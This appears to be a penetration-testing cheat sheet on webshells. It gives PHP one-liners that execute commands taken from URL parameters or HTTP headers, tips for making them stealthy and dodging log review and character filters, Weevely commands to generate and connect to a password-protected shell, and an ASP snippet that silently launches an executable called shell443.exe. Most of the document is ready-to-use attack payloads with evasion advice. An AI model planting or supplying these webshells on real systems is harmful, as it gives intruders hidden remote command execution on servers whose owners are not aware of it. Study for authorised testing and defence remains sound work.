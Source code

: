 # Webshell

A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 \(and 443\). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

You have access to different kinds of webshells on Kali here:

```
/usr/share/webshells
```

## PHP

This code can be injected into pages that use php.

```php
# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

### Make it stealthy

We can make the commands from above a bit more stealthy. Instead of passing the cmd through the url, which will be obvious in logs, we can pass them through other header-parameters. We can use a tool like Burp Suite or even just netcat or curl to insert these commands.

```php
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>

# I have had to use this one
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

### Obfuscation

The following functions can be used to obfuscate the code.  It's unlikely to fool a SOC analyst, but it's useful bypassing character filtering methods.

```
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

### Weevely

Using weevely we can create php webshells easily.

```
weevely generate password /root/webshell.php
```

Not we execute it and get a shell in return:

```
weevely "http://192.168.1.101/webshell.php" password
```

## ASP

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## Coldfusion

There's the standard CFM webshell included with Kali, but it doesn't have that many features and can be a slight pain to get working.  If you're going for stealth, it's easier to modify but I'd recommend the CFM v3 Webshell.

[https://github.com/Reboare/Cfm\_Shell\_v3.0\_edition](https://github.com/Reboare/Cfm_Shell_v3.0_edition)

This one allows easy directory traversal which the standard Kali one lacks.

## References

[http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/](http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)  
[http://www.binarytides.com/web-shells-tutorial/](http://www.binarytides.com/web-shells-tutorial/)




